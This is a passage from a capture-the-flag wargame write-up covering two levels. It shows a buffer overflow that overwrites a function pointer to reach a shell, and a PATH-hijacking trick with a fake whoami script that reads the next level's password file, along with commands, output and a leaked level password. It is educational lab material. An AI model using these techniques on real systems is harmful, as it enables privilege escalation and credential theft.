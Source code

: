 So, the function pointer must be overflowed using a buffer we have control over.

With what value should the function pointer be overflowed?

```
(gdb) p good
$1 = {<text variable, no debug info>} 0x8048474 <good>
(gdb) p bad
$2 = {<text variable, no debug info>} 0x80484a4 <bad>
```

Let's fill the buffer with the 0x74 byte.
Now, it is just a matter of determining the right offset.
(Buffer offsets are sometimes padded some more by the compiler)

```
level3@io:/levels$ ./level03 $(python -c "print 76*'\x74'")
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
level3@io:/levels$ ./level03 $(python -c "print 77*'\x74'")
This is exciting we're going to 0x8048474
Win.
sh-4.2$ cat /home/level4/.pass
```

##Level 4


```
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}
```

```
The popen() function opens a process by creating a pipe, forking, and invoking the shell.
```
Originally, I went with redirecting whoami with shell function aliases, but the challenge got updated and did not work anymore, so I changed the PATH environment variable instead.

```
level4@io:/tmp/tr$ PATH=/tmp/tr:$PATH
level4@io:/levels$ cat /tmp/tr/whoami 
#!/bin/sh
cat /home/level5/.pass
level4@io:/levels$ ./level04
Welcome DNLM3Vu0mZfX0pDd
```

##Level 5
